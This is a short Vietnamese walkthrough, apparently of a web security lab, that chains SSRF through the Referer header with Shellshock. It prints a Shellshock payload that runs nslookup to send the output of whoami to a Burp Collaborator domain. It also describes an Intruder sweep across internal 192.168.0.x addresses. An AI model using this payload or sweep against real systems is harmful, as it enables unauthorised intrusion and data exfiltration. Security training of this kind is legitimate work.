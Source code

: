 ![Hình minh họa 22](images/ssrf_images/image22.png)

Quan sát request thấy ứng dụng gửi request đến URL trong header Referer.
Tiếp theo ta chuẩn bị 1 payload shellhock: 
() { :; }; /usr/bin/nslookup $(whoami).198nr4ee2z6i5qz5nseq0kyar1xull9a.oastify.com
Payload này dùng nslookup để gửi tên user của hệ thống tới Burp Collaborator.
Tiếp đến ta cấu hình Intruder để brute IP nội bộ Thay Referer thành http://192.168.0.§1§:8080 → §1§ là payload position. Cho chạy từ 1 đến 255
